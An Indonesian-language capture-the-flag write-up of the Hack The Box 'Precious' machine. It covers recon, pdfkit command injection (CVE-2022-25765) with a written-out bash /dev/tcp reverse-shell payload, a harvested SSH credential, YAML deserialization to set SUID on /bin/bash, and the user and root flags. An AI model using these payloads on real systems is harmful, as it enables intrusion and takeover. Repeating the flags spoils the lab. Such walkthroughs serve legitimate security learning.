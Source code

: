 # Precious 
**SOLVED : JAN 11 | 2023**
![Precious](https://user-images.githubusercontent.com/92077284/211991670-4b07aee9-b558-4b25-9b42-47e17659e981.png)

## Information Gathering
![image](https://user-images.githubusercontent.com/92077284/213347545-adaa6f23-5523-436a-a37d-9aa5c28a627a.png)  
![image](https://user-images.githubusercontent.com/92077284/211992854-535f66c3-a172-4997-9d7d-82a58bb42449.png)  
Pertama - tama lakukan proses **nmap** pada ip yang sudah diberikan pada web htb, hal ini berfungsi untuk memeriksa layanan yang tersedia dalam jaringan  
Didapati ada 2 port, yaitu port **22 dan 80**, serta alamat web yaitu precious.htb  
Disini disimpulkan bahwa **port 22** untuk akses ssh, dan **port 80** adalah penyedia webnya  
Untuk mengakses precious.htb diperlukan command `sudo vim /etc/hosts` untuk menambahkan `10.10.11.189 precious.htb`  
![image](https://user-images.githubusercontent.com/92077284/211993812-b3068588-4e9d-408d-af3d-45356d7fba78.png)  
Masuk ke **10.10.11.189**  
![image](https://user-images.githubusercontent.com/92077284/211994354-6a6245cb-f01b-4bde-8634-d19b03e707eb.png)  
Apabila dicoba isi 'http://google.com' maka akan menunjukan tampilan seperti ini, karena tertulis _Cannot load remote URL!_ maka saya coba untuk _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211995365-debd1424-dd52-41d1-a55e-4d5855cc7e37.png)  
disini akan dilakukan hosting pada port 80 dengan ip yang sesuai dengan ip di **tun0**, agar nantinya dapat ditangkap oleh website  
![image](https://user-images.githubusercontent.com/92077284/211996025-da71de3e-fdf1-44f5-9b52-be06a30c0176.png)  
![image](https://user-images.githubusercontent.com/92077284/213347427-0cbe2aeb-7399-44cc-9ece-ac74a25d8131.png)  
Lalu coba masukan 'http://10.10.14.30:80' ke dalam website  
![image](https://user-images.githubusercontent.com/92077284/211996453-a4bd650a-8551-4b1d-bd86-c485a273c7d7.png)  
Didapati file pdf sebagai berikut, yang bila dibuka akan menampilkan list directory di tempat _serving http server_  
![image](https://user-images.githubusercontent.com/92077284/211996521-9d32d634-253e-4ae5-b2f6-144b1ce999dc.png)  
![image](https://user-images.githubusercontent.com/92077284/213354581-a64b7b8a-5786-406b-b3fa-3ae0ca537556.png)  
Setelah itu analisa file pdf menggunakan **exiftool**, file di analisa menggunakan tool ini karena saya ingin mengetahui meta data dari file atau ada hal yang mencurigakan dari file.   
![image](https://user-images.githubusercontent.com/92077284/211996948-fb392098-7706-4054-8e85-0d6e1068d64f.png)  
Disini saya memanfaatkan **pdfkit v0.8.6** sebagai celah untuk masuk kedalam sistem, pdfkit adalah _PDF document generation library_ untuk browser, yang fungsinya memudahkan browser membuat file, namun pada versi ini terdapat celah kerentanan dimana kita dapat melakukan _Command Injection_ karena URL tidak di sanitasi.  

**CVE-2022–25765** Source: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
Dari situ dapat dibuat sebuah _reverse shell_ dengan bantuan **Hack-Tools**  
**Hack-Tools** = https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi  
![image](https://user-images.githubusercontent.com/92077284/213356703-8097f1a2-5a5f-498d-9ece-69cbb88491eb.png)  

```
http://example.com/?name=#{'%20`sleep 5`'}
http://example.com/?name=#{'%20``'}
```
menjadi   
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
Untuk memulai tahapannya, pertama coba untuk _listen_ pada port 443  
![image](https://user-images.githubusercontent.com/92077284/213357167-d793b9f5-d2eb-4dfc-b7f7-adae4d6ca264.png)  
lalu buat _payload_ dan masukan kedalam website, untuk melakukan _command injection_  
```
http://example.com/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.30/443 <&1'`'}
```
![image](https://user-images.githubusercontent.com/92077284/213357672-62b90aeb-1762-418d-9e22-edc9fa001afb.png)  
lalu aktivitas akan terekam pada terminal yang tadi  
![image](https://user-images.githubusercontent.com/92077284/213358242-9cd66e8b-48e6-4f71-a2b9-86420ffc9b8b.png)  
_Note : IP berbeda karena WU dibuat pada hari berbeda_  

Karena sudah masuk, maka disini akan dilakukan pencarian **flag**  
Yang saya lakukan pertama adalah masuk ke directory awal  
![image](https://user-images.githubusercontent.com/92077284/213358684-a63b2268-5d14-4eef-ad78-9a6dba781803.png)  
lalu disini saya memutuskan untuk masuk ke directory **home** karena biasanya user akan disimpan pada directory ini  
![image](https://user-images.githubusercontent.com/92077284/213358862-5dbc5421-0c27-4afe-b2af-ae987b8e7fea.png)  
Ditemukan 2 user , yaitu **henry** dan **ruby**, disini saya mencoba masuk ke **henry**, namun ada keterbatasan akses
setelah itu saya mencoba untuk masuk ke **ruby**  
![image](https://user-images.githubusercontent.com/92077284/213359072-53bf1b90-981f-44d6-b171-b49d3ba1d2c5.png)  
Disini awalnya saya melihat apa saja yang ada dalam direcotry ini, lalu setelah mencoba-coba, ternyat directory **.bundle** dapat diakses, dan ternyata menampung kredensial dari **henry**

Kredensial henry : `henry:Q3c1AqGHtoI0aXAYFH`  

Setelah itu saya masuk ke akun henry menggunakan *ssh*  
![image](https://user-images.githubusercontent.com/92077284/213359292-7cf62917-2301-4c03-95e2-779249e58a0c.png)  
setelah itu ternyata sudah bisa diakses untuk **user.txt**, dan disini juga sekaligus menjadi **FLAG USER**
![image](https://user-images.githubusercontent.com/92077284/213359417-af9dc795-4d34-4037-a835-8257176cc76c.png)  

**FLAG USER** = `a13c7cb8903ad65d586d143f089a7d31`

Step berikutnya saya coba untuk mengakses *root* ternyata belum bisa  
![image](https://user-images.githubusercontent.com/92077284/213359997-fdb4c873-b486-49d0-ba13-a690ca14b368.png)  

Step selanjutnya saya memeriksa *privilage henry*  
![image](https://user-images.githubusercontent.com/92077284/213359780-b77de642-3b9e-4832-9939-adc80791b6bd.png)  
Ternyata ada file yang mengatur akses privilage yaitu pada `/usr/bin/ruby /opt/update_dependencies.rb`  
Disini saya coba untuk membaca file **update_dependencies.rb**  
![image](https://user-images.githubusercontent.com/92077284/213360542-7f2c594e-b5be-4dde-92fe-dbe89aadac11.png)  
Setelah dianalisa, ternyata bagian ini dapat dilakukan **YAML Deserialization Attack** karena terdapat bagian pada file yang mengatakan `YAML.load(File.read("dependencies.yml"))`

Source : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

Karena tadi yang menjadi permasalahan adalah soal _permission access_,  
![image](https://user-images.githubusercontent.com/92077284/213361192-0d8ba32a-a978-4f30-84ac-36199edbdd59.png)  
maka kita bisa merubah akses henry menjadi lebih tinggi, yaitu dengan menambahkan file dependencies.yml dengan template pada **source** pada bagian **git_Set** menjadi `"chmod u+s /bin/bash"`  
![image](https://user-images.githubusercontent.com/92077284/213362505-18ff1a20-0db7-49ae-80ce-6f9286e13587.png)  
![image](https://user-images.githubusercontent.com/92077284/213362901-2ac4d9a0-902b-415d-8a5e-1f312a733ad9.png)  
![image](https://user-images.githubusercontent.com/92077284/213362528-2e9937aa-77f8-4b07-a752-f343fe7d0f6b.png)  
Setelah menyimpan file `dependencies.yml` pada folder henry, sekarang coba untuk melakukan update permission dengan command `sudo /usr/bin/ruby /opt/update_dependencies.rb` dan sekarang directory **/bin/bash** sudah dapat diakses  
![image](https://user-images.githubusercontent.com/92077284/218143683-2d4fdcc1-3adb-45b9-999f-f2061d9fd95e.png)  
Setelah itu masuk kedalam bash untuk mengakses directory root, dan mengambil flagnya  
![image](https://user-images.githubusercontent.com/92077284/218143897-e63a82af-ec0e-43dd-ac11-64c16937f6f3.png)  

**FLAG ROOT** = `afa996c3ff48e061a0849b9f5848fff2`

